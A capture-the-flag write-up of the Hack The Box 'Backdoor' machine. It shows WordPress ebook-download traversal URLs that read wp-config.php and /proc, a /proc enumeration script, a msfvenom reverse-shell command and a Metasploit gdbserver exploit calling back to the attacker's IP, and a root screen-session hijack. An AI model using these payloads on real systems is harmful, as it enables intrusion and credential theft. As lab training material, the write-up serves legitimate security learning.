

---
tags:
  - screen
  - gdbserver
  - ebook-download
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Backdoor
- Reference : https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
- Solved : 2025.3.10. (Mon) (Takes 1day)

## Summary
---

- **Initial Enumeration**
    - Discovered open ports: **SSH (22), HTTP (80)**, and an unknown service (**1337**).
    - Identified the web service running **WordPress**.
    - Detected vulnerable WordPress plugins, particularly **`ebook-download v1.1`** with a directory traversal vulnerability.
    
- **Service Exploitation**
    - Leveraged the traversal vulnerability to access sensitive files, including WordPress credentials and `/proc` process information.
    - Enumerated process command lines via **`/proc`**, revealing that **`gdbserver`** was being run by a user on port 1337.
    - Exploited `gdbserver` to gain a reverse shell as a low-privileged user.
    
- **Privilege Escalation**
    - Discovered a root process repeatedly launching detached `screen` sessions.
    - **Hijacked an active root screen** session to escalate privileges and gain a root shell.

### Key Techniques:

- Enumeration via port scanning, WordPress analysis, and process inspection.
- Exploitation through directory traversal and gdbserver abuse.
- Privilege escalation by hijacking a misconfigured root screen session.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.125
Performing quick port scan on 10.10.11.125...
Found open ports: 22,80,1337
Performing detailed scan on 10.10.11.125...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 04:01 MDT
Nmap scan report for 10.10.11.125
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.07 seconds
```

### tcp(1337)

The `nmap` scan and scripts were not able to get anything out of port 1337. I’ll try a couple manual checks, like connecting with `nc` and sending random text, and but nothing ever comes back.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ nc -nv 10.10.11.125 1337
(UNKNOWN) [10.10.11.125] 1337 (?) open
abcd
test
^C
```

### http(80)



Looks like a normal blog site.

```html
<body class="home page-template-default page page-id-11 wp-embed-responsive twentyseventeen-front-page has-header-image page-two-column colors-light">
<div id="page" class="site">
	<a class="skip-link screen-reader-text" href="#content">Skip to content</a>

	<header id="masthead" class="site-header" role="banner">

		<div class="custom-header">

		<div class="custom-header-media">
			<div id="wp-custom-header" class="wp-custom-header"></div>		</div>
```

Given its source code, I think the server is running upon wordpress.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ gobuster dir -u http://10.10.11.125 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.125
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.11.125/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.11.125/wp-includes/]
```

Let's run `wpscan` then.
It found several plugins installed; akismet, and ebook-download

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $(cat /opt/wpscan/api_token.txt)
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://backdoor.htb/ [10.10.11.125]
[+] Started: Mon Mar 10 04:42:42 2025

...SNIP...

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://backdoor.htb/wp-content/plugins/akismet/
 | Latest Version: 5.3.7
 | Last Updated: 2025-02-14T18:49:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

...SNIP...
```

Couldn't find any information about "akismet" plugin since the reponse is "403 Forbidden".
But "ebook-download" plugin shows more information on its `README.txt`.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt | head
=== Plugin Name ===
Contributors: zedna
Donate link: https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=3ZVGZTC7ZPCH2&lc=CZ&item_name=Zedna%20Brickick%20Website&currency_code=USD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted
Tags: ebook, file, download
Requires at least: 3.0.4
Tested up to: 4.4
Stable tag: 1.1
License: GPLv2 or later
License URI: http://www.gnu.org/licenses/gpl-2.0.html
```


# Shell as `user`

### Exploit "ebook-download"

Given this version 1.1, I googled to find if there's any vulnerability, and found one "Path Traversal" vulnerability and its exploit from [here](https://www.exploit-db.com/exploits/39575).

According to the explanation, I can read whatever files on the server like the following :

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php

...SNIP...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

...SNIP...
```

### Read command lines from `/proc`

Within the "File Traversal" vulnerability, one of the field which is valuable to read is `/proc` directory.
There are directories with process ID numbers in it.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ ls /proc                               
1        1396    1695     1846018  235   267     37   69      90
100      14      17       1847130  236   268     38   7       91
1038     1407    1707     1848840  237   269     39   70      92
1039     1411    1715     1849622  238   270     4    71      93
104      1415    1716     19       239   271     40   72      94
...SNIP...
```

I can fetch the maximum number of PID : 4194304

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/sys/kernel/pid_max --output -

<SNIP>4194304<SNIP>     
```

After a few trial, I could retrieve the command line with the following URL.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
/usr/sbin/apache2 -k start 
```

The breaks down as:

- `tr '\000' ' '` - replace nulls with spaces
- `cut -c115-` start at character 115 and print the rest. I’ll note that 115 is three times the length of the parameter plus 1.
- `rev | cut -c32- | rev` - reverse the string, start 32 characters in, and then reverse again, effectively removing the last 31 characters.

This traversal also works with absolute paths, so `ebookdownloadurl=/proc/self/cmdline`.

I can make a quick bash script to repeat this process to retrieve all processes' cmdlines.

```bash
#!/bin/bash

for i in $(seq 1 4194304); do

    path="../../../../../../proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi

done
```

I ran the script, and among the command lines, I found one catching my sight.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ ./get_cmdline.sh  
1: /sbin/init auto automatic-ubiquity noprompt 

...SNIP...

874: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
879: /usr/lib/policykit-1/polkitd --no-debug 
881: /usr/lib/policykit-1/polkitd --no-debug 
884: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
887: /sbin/agetty -o -p -- \u --noclear tty1 linux 

...SNIP...
```

It seems that `gdbserver` binary in `/home/user` directory is run and serviced on port 1337.

```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

### Exploit gdbserver

I found a guide from [hacktricks](https://book.hacktricks.wiki/ko/network-services-pentesting/pentesting-remote-gdbserver.html?highlight=gdbserver#pentesting-remote-gdbserver) how to exploit gdbserver.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9000 PrependFork=true -f elf -o rev.elf

chmod +x rev.elf

gdb rev.elf

target extended-remote 10.10.11.125:1337

remote put rev.elf /dev/shm/rev.elf

set remote exec-file /dev/shm/rev.elf

run
```

However, since I was using ARM64 architecture, I couldn't directly use this methodology.
Instead, I used metasploit.

```bash
msf6 exploit(multi/gdb/gdb_server_exec) > options

Module options (exploit/multi/gdb/gdb_server_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to
                                        a process.
   RHOSTS    10.10.11.125     yes       The target host(s), see https://docs.metasploit.com
                                        /docs/using-metasploit/basics/using-metasploit.html
   RPORT     1337             yes       The target port (TCP)


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.7       yes       The listen address (an interface may be specified)
   LPORT  9000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   x86_64

View the full module info with the info, or info -d command.

msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:9000 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (3045380 bytes) to 10.10.11.125
[*] Meterpreter session 1 opened (10.10.14.7:9000 -> 10.10.11.125:46794) at 2025-03-10 07:04:06 -0600

meterpreter > getuid
Server username: user
```


# Shell as `root`

### Exploit Suggestor (Metasploit)

```bash
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.125 - Collecting local exploits for x64/linux...
[*] 10.10.11.125 - 198 exploit checks are being tried...
[+] 10.10.11.125 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 10.10.11.125 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/docker_cgroup_escape: The target is vulnerable. IF host OS is Ubuntu, kernel version 5.4.0-80-generic is vulnerable
[+] 10.10.11.125 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 10.10.11.125 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/sudo_baron_samedit: The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[+] 10.10.11.125 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 70 / 70
[*] 10.10.11.125 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 5.4.0-80-generic is vulnerable                                                                                        
 5   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 6   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/sudo_baron_samedit                              Yes                      The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.                                                                                           
 8   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module                 
```

I tried all suggested exploits.
- cve_2021_3493_overlayfs : failed
- cve_2021_4034_pwnkit_lpe_pkexec : succeed
- cve_2022_0995_watch_queue : failed
- exploit/linux/local/docker_cgroup_escape : failed
- exploit/linux/local/pkexec : failed
- exploit/linux/local/su_login : failed
- exploit/linux/local/sudo_baron_samedit : failed

`pkexec` exploit works, but let's use the intended approach.

### Exploit screen

Recalling the `/proc/{pid}/cmdline` check, there was  another command on different PID.

```bash
874: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```

It seems that `screen` is running.

```bash
user@Backdoor:~$ ps aux | grep screen

root         874  0.0  0.0   2608  1600 ?        Ss   09:48   0:04 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

The process seems to be run by `root`. So probably the next vector to work on.

[Hacktricks](https://book.hacktricks.wiki/ko/linux-hardening/privilege-escalation/index.html?highlight=screen#screen-sessions-hijacking) has a guide to exploit this.

First, check existing screens.

```bash
user@Backdoor:~$ screen -ls
screen -ls
No Sockets found in /run/screen/S-user.


user@Backdoor:~$ screen -ls root/
screen -ls root/
There is a suitable screen on:
        977.root        (03/10/25 09:48:47)     (Multi, detached)
```

Only the screen for `root` exists.
I can connect to this screen as follows;

```bash
user@Backdoor:~$ screen -r root/
screen -r root/
Please set a terminal type.


user@Backdoor:~$ TERM=screen screen -r root/
TERM=screen screen -r root/
```

I prepended `TERM=screen` before `screen` command since it was asking to set terminal type.
Then `root` shell is opened.

```bash
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# whoami
whoami
root
```

I got `root` shell!